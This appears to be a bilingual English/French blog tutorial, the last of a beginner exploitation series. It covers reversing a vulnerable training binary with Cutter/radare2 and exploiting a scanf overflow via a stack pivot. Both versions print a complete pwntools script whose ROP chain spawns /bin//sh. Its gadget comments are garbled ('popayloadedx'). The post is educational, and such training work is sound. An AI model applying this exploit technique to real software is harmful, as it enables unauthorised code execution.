








> Small edit after the initial publication of the articles:

> These four articles lead me to give an "pwn introductory" conference at the HitchHack 2018. It summarizes the first 3 articles but goes less into detail. If this format suits you better, the slides are downloadable [here](/hacking/pwn_1of4_buffer_overflow/slides_conf_123_pwned.pdf) and the video (French only) here :



## Pwn Road, last introductory article!

I promised you some heavy stuff for the final, and what is said, is due!

The exploit will not be very long, but here's the program: A nice technique, some reverse, and an open source tool that you'll dream of!

You who stood strong during the previous 3 articles, I hope you are still ready!


## Recon

The studied binary is downloadable [here](vuln) !

Hello little program, what do you do for a living?



Meh, not much...

Let's take our first tool: Radare2!

I hesitated between presenting its command line interface, or its graphical interface. But there is so much development and effort done on their GUI that I want to present this version.

So I present you Cutter, based on radare2, which is a very advanced reverse engineering tool. For the record, radare2 is intended to be as standalone (independent) as possible, i.e. you can use it on a particular device / architecture, even if it does not have any tool / package preinstalled. All you have to do is recompile it in situ or cross-compile it. As a 'bonus', many classic admin-sys tools are integrated! A paradise for embded devices, remote control of a watch, phone, or whatever you like.

It is open source, and its developers are very active, so prefer an installation via their git... :)

Official website here: https://rada.re/r/

It's full of easter eggs, if you have time to waste, enjoy! ;)

I know that the screenshot is difficult to read in its normal size, but I uploaded the source resolution, you can (should) zoom as close as you want!

Sorry / Not sorry, your vision is now blurry! ``¯\_(ツ)_/¯``



Brief presentation of the interface:

 * On the left:

The different functions of the program. We're lucky, the program isn't stripped, so it still contains the names of the functions. Otherwise, we would only have generic names that could not be used easily.

 * On the right:

Information on the line being inspected. Not very useful at the moment.

 * Up:

An overview of the program structure. Code, data, recognizable patterns for crypto,...

 * Down:

A console of logs (with already an easter egg!) and the different sections of the program and their information.

 * In the middle:

The analysis tool in use.

Here, the dashboard proudly tells us: Bruhhh, I looked a little bit, and you seeeee, I found that your target thereeee, well it's an ELF, in 32 bits, initially coded in C, without stack canary, without cryptographic protection, its stack is NX, the PIC is disabled. It is not stripped, also it's compiled in static! :D

Isn't it great all these information with just a finger snap!

So... Get it ?  °^°



A quick overview of the execution flow (from the main), still with Cutter :



Way too lazy to analyze it in depth... Pseudo code please?



We immediately see that the decompilation is partial, we see a lot of interesting things, but we don't have a clear C code as we would like... Well, we'll deal with it!

There are many lines of code, so it's time to learn an effective way of looking for security breach in a general hacking way: Sources and Sinks!

A little ref to the [Live Overflow](https://www.youtube.com/watch?v=ZaOtY4i5w_U) youtube channel, it's GOLD. Everything he does (hacking, pwn, web, reverse, random,...) is of an incredible quality, and he just talked about the SoSi method, so have a look!

In short, what do we control (inputs), and what do we want to reach (dangerous functions).

Here, we want to make a buffer overflow. So we're looking for vulnerable functions and inputs.

 * Sources: admin name, room name, temperature

 * Sinks: scanf... scanf ? scanf!

scanf corresponds to "room name". Let's do a few tests just to be sure that we control the crash point:



Crash confirmed!

Before looking for the offset, there is one more thing to look for, which will **MAYBEEEE** be useful later... Just saying... For the curious ones, it is in the first code screenshot, for the others, the reading continues:

*-[ SPOIL ]-*

We read the following code:

```
push 0x3ff // size: 1023
push obj.username // address: 0x80eb2c0 char * fgets(...) // user entry
```

In other words, the program will always put in the same place (0x80eb2c0) up to 1023 bytes entered by the user... Maybe it's legitimate... But it can be useful? Probably... Who knows! :)

Now, the offset!




The program crashes on a ret: Usual, classic, cool.

We do have ESP, good. Wait... What? We have ESP... + 4 ?

Yes, the famous pattern is cleverly formated, clever enough to be detected even if it has been altered (a bit)!

This means that between the time we overflow, and the time we execute the ret instruction, the stack (well, our ESP in the stack) has been altered.

But... We have ESP + 4? Yes. Do we know how to add up? Yes.


I hope you're starting to see where we're going with this? :)

We know where to store bytes. We control EIP since we control ESP on a ret. We know the offset, and we know how to modify ESP so that it takes the value of our choice... Justwreckit!

That's the right time to announce you the technique we're going to use, a Stack Pivot!

We will rotate the execution of our program, making it believe that the stack is where the username is, which we can define as we wish, of course.

I pass the creation of the ropchain as it's exactly like in the previous article, we'll do our exploit right away:

```python
#!/usr/bin/env python2

from pwn import *

# Setting up
context.log_level = "debug"

ropchain = ''
ropchain += p32(0x0806ebaa)  # popayloadedx ; ret
ropchain += p32(0x080ea340)  # @ .data
ropchain += p32(0x080bb696)  # popayloadeax ; ret
ropchain += '/bin'
ropchain += p32(0x08097276)  # mov dword ptr [edx], eax ; popayloadebx ; ret
ropchain += p32(0x41414141)  # padding
ropchain += p32(0x0806ebaa)  # popayloadedx ; ret
ropchain += p32(0x080ea344)  # @ .data + 4
ropchain += p32(0x080bb696)  # popayloadeax ; ret
ropchain += '//sh'
ropchain += p32(0x08097276)  # mov dword ptr [edx], eax ; popayloadebx ; ret
ropchain += p32(0x41414141)  # padding
ropchain += p32(0x0806ebaa)  # popayloadedx ; ret
ropchain += p32(0x080ea348)  # @ .data + 8
ropchain += p32(0x080545b0)  # xor eax, eax ; ret
ropchain += p32(0x08097276)  # mov dword ptr [edx], eax ; popayloadebx ; ret
ropchain += p32(0x41414141)  # padding
ropchain += p32(0x080481a9)  # popayloadebx ; ret
ropchain += p32(0x080ea340)  # @ .data
ropchain += p32(0x080c18cc)  # popayloadecx ; ret
ropchain += p32(0x080ea348)  # @ .data + 8
ropchain += p32(0x0806ebaa)  # popayloadedx ; ret
ropchain += p32(0x080ea348)  # @ .data + 8
ropchain += p32(0x080545b0)  # xor eax, eax ; ret
ropchain += p32(0x0807b64f) * 11 # inc eax ; ret
ropchain += p32(0x080494b1)  # int 0x80

p = process("./vuln")
p.recv()
p.sendline(ropchain)
p.recv()
"""
0x08048fc9 <+397>:	lea    esp,[ecx-0x4]
0x08048fcc <+400>:	ret
On ajoute donc 4 a user name pour compenser le -0x4
"""
usernameAddr = 0x80EB2C0
ESP = usernameAddr + 4 # Fix the offset before ret
p.sendline("1" * 28 + p32(ESP))
p.recv()
p.sendline("10")
p.recv()
p.interactive()
```

Let's run it, it would be crazy to see it working at the first time, wouldn't it? :O



Bim, shell, first try, too IZI mannnn!


Except... Except it's not as easy.

By reading an article like that, it doesn't seem that complex, a little bit messy, at most. Except that for each step, unless you are really good at it (Geluchat, Blackndoor, Pixis, Klaoude, Antoxyde, Ethnical, Reglisse...), it is hours, days (well, nights, we understand each other now ;) ) that are spend learning this. But trying hard to finally get there, what a satisfaction!

If you also want to get started, I recommend the excellent exercise suite [Protostar] (https://exploit-exercises.com/protostar/)

As well as the classic [root-me](https://www.root-me.org/) that I particularly like. Be careful though, this site will devour your nights... =]

But although I love this site, I don't think it very appropriate to discover the binary exploit. But for all the other categories of "classic" hacking, go for it, it's a blessed bread! ;)

That's how this pwn introduction ends, I hope you liked it and learned some things (at least a little? :D)

I am very, very happy with your many feedback!

Wishing you a happy and successful pwn,


<h2 id="fr">French version</h2>


 > Petit ajout après la publication des articles :

 > Ces quatres articles ont donné lieu à une conférence d'introduction au pwn à la HitchHack 2018. Elle résume les 3 premiers articles mais rentre moins dans le détail. Si ce format vous convient mieux, les slides sont téléchargables [ici](/hacking/pwn_1of4_buffer_overflow/slides_conf_123_pwned.pdf) et la vidéo (francais uniquement) ici :

 

## Route du pwn, dernier article d'introduction !

Je vous avais promis du lourd pour le final, chose dite, chose due !

L'exploit ne sera pas très long, mais en prévision : Une technique sympa, du reverse, et un outil open source qui vend du rêve !

Vous qui avez tenu les 3 articles précédents, j'espère que vous êtes toujours chauds !


## Reconnaissance

Le binaire étudié est téléchargable [ici](vuln) !

Bonjour petit programme, que fais-tu dans la vie ?


Meh, not much...

On sort le premier tool : Radare2 !

J'ai hésité entre le présenter en ligne de commande, ou via son interface graphique. Mais il y a tellement de développement et d'efforts faits sur leur GUI que je vais présenter cette version.

Je vous présente donc Cutter, basé sur radare2, qui est un outil de reverse engineering très pointu. Pour la petite histoire, radare2 est voulu le plus standalone (indépendant) possible, c'est à dire que vous pouvez l'utiliser sur un device / une architecture particulière, même si celle ci n'a pas le moindre outil / paquet préinstallé. Il vous suffit de le recompiler in situ ou le cross-compiler. En 'prime', plein de tools d'admin-sys classiques y sont intégrés ! Le paradis pour du embedded device, du remote sur un tel / une montre, ou que sais-je encore.

Il est open source, et son développement très actif, préférez donc une installation via leur git... :)

Site officiel ici : https://rada.re/r/

Il est bourré d'easter eggs, si vous avez du temps à perdre, enjoy ! ;)

Je sais que le screenshot est difficilement lisible en taille normal, mais j'ai mis la résolution source, et j'ai check sur tel et pc, en zoomant c'est pixel-perfect !

Deso / Pas deso, il faut voir plus gros ! `¯\_(ツ)_/¯`


Présentation brève de l'interface :

 * A gauche :

Les différentes fonctions du programme. On a de la chance, le programme n'a pas été "strip", il contient donc encore le nom des fonctions. Sinon, nous n'aurions eu que des noms génériques peu agréables à utiliser.

 * A droite :

Des informations sur la ligne en cours d'inspection. Pas très utile pour le moment.

 * En haut :

Un apercu de la structure du programme. Code, données, schémas reconnaissables pour de la crypto, ...

 * En bas :

Une console de logs (avec déjà un easter egg !) et les différentes sections du programme et leurs infos.

 * Au milieu :

L'outil d'analyse en cours d'utilisation.

Ici, le dashboard nous indique fièrement : Ouiiii, alors j'ai un peu cherchéééé, et tu voisss, j'ai trouvé que ta cible là, eh bien c'est un ELF, en 32 bits, initialement codé en C, sans stack canary, sans protection cryptographique, sa stack est NX, le PIC est désactivé. Il n'est pas strippé, et il est compilé en statique ! :D

Si ce n'est pas classe toutes ces infos d'un claquement de doigt !

Du coup... Vous l'aver ? °^°


Petit apercu du flot d'exécution (à partir du main), toujours via Cutter :


Un peu la flemme d'analyser ca en profondeur... Pseudo code s'il vous plaît ?


On voit tout de suite que la décompilation est partielle, on voit plein de choses intéressantes, mais on n'a pas un code C clair comme on aimerait... Bah on va faire avec !

Il y a de la matière, il est donc temps d'apprendre une manière de voir les choses très efficace pour le hacking en général : Sources and Sinks !

Petite ref à la chaine youtube de [LiveOverflow]( https://www.youtube.com/watch?v=ZaOtY4i5w_U), contenu de qualiteyyyy ! Tout ce qu'il fait (hacking, pwn, web, reverse, random, ...) est d'une qualité incroyable, et il a justement parlé de la méthode SoSi, donc faites y un tour !

En bref, que contrôlons-nous (inputs), et que voulons-nous atteindre (fonctions dangereuses).

Ici, on veut faire un buffer overflow. On cherche donc des fonctions vulnérables et des entrées.

 * Sources : admin name, room name, temperature

 * Sinks : scanf... scanf ? scanf !

scanf correspond à "room name". On fait un ou deux essais quand même pour être sûr de contrôler le point de crash :


Point de crash confirmé !

Avant de chercher l'offset, il y a une chose supplémentaire à repérer, qui nous servira **PEUT ÊTREEEEE** par la suite... Je dis ca je dis rien... Pour les chercheurs, c'est dans le premier screenshot de code, pour les autres, la lecture continue :

*-[ SPOIL ]-*

On lit le code suivant :

```
push 0x3ff // taille : 1023
push obj.username // adresse : 0x80eb2c0 char * fgets(...) // saisie utilisateur
```

Autrement dit, le programme va toujours mettre au même endroit (0x80eb2c0) jusqu'à 1023 bytes saisis par l'utilisateur... Ca peut se justifier... Mais ca peut être utile non ? Who knows ! :)

Maintenant, l'offset !


On crash sur un ret : Habituel, classique, cool.

On a ESP, bien. Wait... What ? On a ESP... + 4 ?

Eh oui, le fameux pattern est suffisamment bien pensé pour être détecté même si il a été altéré (un peu) !

Cela signifie qu'entre le moment où on overflow, et le moment où on exécute l'instruction ret, la pile (enfin, notre ESP dans la pile) a été altéré.

Mais... On a ESP + 4 ? Oui. On sait faire une addition ? Oui.


Vous commencez, je l'espère, à voir où je veux en venir ? :)

On sait où stocker des bytes. On contrôle EIP vu qu'on contrôle ESP sur un ret. On connaît l'offset, et on sait comment modifier ESP pour qu'il prenne la valeur de notre choix... Yapluka !

C'est là que je nomme la technique que nous allons utiliser, le Stack Pivot !

On va faire pivoter l'exécution de notre programme, en lui faisant croire que la stack est à l'emplacement du username, que nous pouvons définir à notre guise, bien entendu.

Je passe la préparation de la ropchain car c'est exactement comme dans l'article précédent, on va tout de suite faire notre exploit :

```python
#!/usr/bin/env python2

from pwn import *

# Setting up
context.log_level = "debug"

ropchain = ''
ropchain += p32(0x0806ebaa)  # popayloadedx ; ret
ropchain += p32(0x080ea340)  # @ .data
ropchain += p32(0x080bb696)  # popayloadeax ; ret
ropchain += '/bin'
ropchain += p32(0x08097276)  # mov dword ptr [edx], eax ; popayloadebx ; ret
ropchain += p32(0x41414141)  # padding
ropchain += p32(0x0806ebaa)  # popayloadedx ; ret
ropchain += p32(0x080ea344)  # @ .data + 4
ropchain += p32(0x080bb696)  # popayloadeax ; ret
ropchain += '//sh'
ropchain += p32(0x08097276)  # mov dword ptr [edx], eax ; popayloadebx ; ret
ropchain += p32(0x41414141)  # padding
ropchain += p32(0x0806ebaa)  # popayloadedx ; ret
ropchain += p32(0x080ea348)  # @ .data + 8
ropchain += p32(0x080545b0)  # xor eax, eax ; ret
ropchain += p32(0x08097276)  # mov dword ptr [edx], eax ; popayloadebx ; ret
ropchain += p32(0x41414141)  # padding
ropchain += p32(0x080481a9)  # popayloadebx ; ret
ropchain += p32(0x080ea340)  # @ .data
ropchain += p32(0x080c18cc)  # popayloadecx ; ret
ropchain += p32(0x080ea348)  # @ .data + 8
ropchain += p32(0x0806ebaa)  # popayloadedx ; ret
ropchain += p32(0x080ea348)  # @ .data + 8
ropchain += p32(0x080545b0)  # xor eax, eax ; ret
ropchain += p32(0x0807b64f) * 11 # inc eax ; ret
ropchain += p32(0x080494b1)  # int 0x80

p = process("./vuln")
p.recv()
p.sendline(ropchain)
p.recv()
"""
0x08048fc9 <+397>:	lea    esp,[ecx-0x4]
0x08048fcc <+400>:	ret
On ajoute donc 4 a user name pour compenser le -0x4
"""
usernameAddr = 0x80EB2C0
ESP = usernameAddr + 4 # Fix the offset before ret
p.sendline("1" * 28 + p32(ESP))
p.recv()
p.sendline("10")
p.recv()
p.interactive()
```

On le lance, ce serait quand même fou que ca fonctionne du premier coup non ? :O


Bim, shell, first try, too IZI mannnn !


Sauf que... Sauf que non.

En lisant un article comme ca, ca n'a pas l'air si complexe que ca, un peu fouilli à la rigueur. Sauf que pour chaque exploit, à moins d'être vraiment un monstre (coucou Geluchat, Blackndoor, Pixis, Klaoude, Antoxyde, Ethnical, ...), c'est des heures, des jours (enfin, nuits, on se comprend ;) ) qui y passent. Mais s'acharner pendant longtemps pour finalement y arriver, quelle satisfaction !

Si vous aussi vous souhaitez vous lancer, je vous conseille l'excellente suite d'exercice [Protostar](https://exploit-exercises.com/protostar/).

Ainsi que le classique [root-me](https://www.root-me.org/) que j'affectionne particulièrement. Faites quand même attention, ce site dévorera vos nuits... =]

Mais bien que j'adore ce site, je ne le trouve pas très approprié pour découvrir l'exploit binaire. Mais pour toutes les autres catégories de hacking "classique", foncez, c'est du pain béni ! ;)

C'est ainsi que se conclu cette introduction au pwn, j'espère qu'elle vous a plu et que vous y avez appris des choses (au moins un peu ? :D )

Vos nombreux retours me font très très plaisir ! ^.^

En vous souhaitant un pwn heureux et fructueux,
